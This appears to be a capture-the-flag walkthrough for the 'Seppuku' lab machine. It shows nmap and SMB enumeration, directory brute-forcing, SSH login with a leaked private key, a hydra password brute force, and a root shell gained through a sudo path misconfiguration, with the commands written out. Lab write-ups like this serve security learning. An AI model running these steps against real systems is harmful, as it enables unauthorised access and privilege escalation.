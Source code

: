 ```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# Seppuku

### Nmap enumeration

```bash
nmap -sV -sC -T4 -p- -oN ~/Desktop/labs/playground/seppuku/nmap 192.168.177.90
```

```markdown
Nmap scan report for 192.168.177.90
Host is up (0.18s latency).
Not shown: 65259 closed tcp ports (conn-refused), 268 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
|_  256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  p��tUU        Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/empoweri0 LiteSpeed
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-title: Did not follow redirect to https://192.168.177.90:7080/
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http          LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2024-01-21T14:36:27-05:00
| smb2-time: 
|   date: 2024-01-21T19:36:29
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```

### smb enumeration

smb is present on ports 139,445

```bash
enum4linux 192.160.177.90
```

we found users on the system&#x20;

<figure><img src="../../.gitbook/assets/users.png" alt=""><figcaption></figcaption></figure>

```markdown
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''  

S-1-22-1-1000 Unix User\seppuku (Local User)                    
S-1-22-1-1001 Unix User\samurai (Local User)
S-1-22-1-1002 Unix User\tanto (Local User)

```

### http enumeration

. port 80 requires a login, butrueforce is dead end . it has no sub-directories

<figure><img src="../../.gitbook/assets/Screenshot_2024-01-21_22-45-50.png" alt=""><figcaption></figcaption></figure>

port 8088 it has sub-directories but don't work, rabbit-hole

<figure><img src="../../.gitbook/assets/8088.png" alt=""><figcaption></figcaption></figure>

sub-dircetories they don't work&#x20;

<figure><img src="../../.gitbook/assets/808.png" alt=""><figcaption></figcaption></figure>

port 7601&#x20;

<figure><img src="../../.gitbook/assets/7601.png" alt=""><figcaption></figcaption></figure>

sub-directory enumeration on port 7601

```shell
gobuster dir -u http://192.168.177.90:7601/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x html,txt,php 
```

<figure><img src="../../.gitbook/assets/76.png" alt=""><figcaption></figcaption></figure>

found a static page, on /ckeditor&#x20;

<figure><img src="../../.gitbook/assets/ststic.png" alt=""><figcaption></figcaption></figure>

founds some files in keys directory

<figure><img src="../../.gitbook/assets/keys.png" alt=""><figcaption></figcaption></figure>

These two file are ssh keys to but to what users.&#x20;

<figure><img src="../../.gitbook/assets/pri.png" alt=""><figcaption></figcaption></figure>

another static page /production

<figure><img src="../../.gitbook/assets/pro.png" alt=""><figcaption></figcaption></figure>

&#x20;/secret

<figure><img src="../../.gitbook/assets/scret.png" alt=""><figcaption></figcaption></figure>

We have received a password list , we are going o use it to brute-force the ssh and see if we might gave i login. trying the private key obtained

```shell
chmod 600 private
ssh -i private tanto@192.168.177.90
```

We have access to tanto&#x20;

<figure><img src="../../.gitbook/assets/tanto.png" alt=""><figcaption></figcaption></figure>

go to unrestricted terminal

```shell
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

enter into /home/seppuku find the local.txt, but we also see a .passwd file&#x20;

<figure><img src="../../.gitbook/assets/pass.png" alt=""><figcaption></figcaption></figure>

we have a found a password but \[12345685213456!@!@A] but its for which user

```shell
ssh samurai@192.168.177.90
```

the password we found was for samurai change to unrestricted shell

```shell
echo $$ bash
```

<figure><img src="../../.gitbook/assets/sum.png" alt=""><figcaption></figcaption></figure>

with hydra we also found the password of seppuku

```shell
hydra -l seppuku -P password.lst ssh://192.168.177.90
```

<figure><img src="../../.gitbook/assets/hyd.png" alt=""><figcaption></figcaption></figure>

logging in&#x20;

<figure><img src="../../.gitbook/assets/sep.png" alt=""><figcaption></figcaption></figure>

## privilege escalation

```shell
sudo -l
```

when we run sudo -l on user samurai we see he ca run some files&#x20;

<figure><img src="../../.gitbook/assets/pri1.png" alt=""><figcaption></figcaption></figure>

```markdown
(ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

we are going to create the .cgi\_bin file in tanto because it doesn't exist their

```markdown
mkdir .cgi_bin
```

<figure><img src="../../.gitbook/assets/cgi.png" alt=""><figcaption></figcaption></figure>

and also we are going to create a bin file which might help has to get a root shell

```markdown
echo '/bin/bash' > bin
chmod 777 bin
```

<figure><img src="../../.gitbook/assets/cg.png" alt=""><figcaption></figcaption></figure>

root user

```markdown
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

<figure><img src="../../.gitbook/assets/root.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/rt.png" alt=""><figcaption></figcaption></figure>
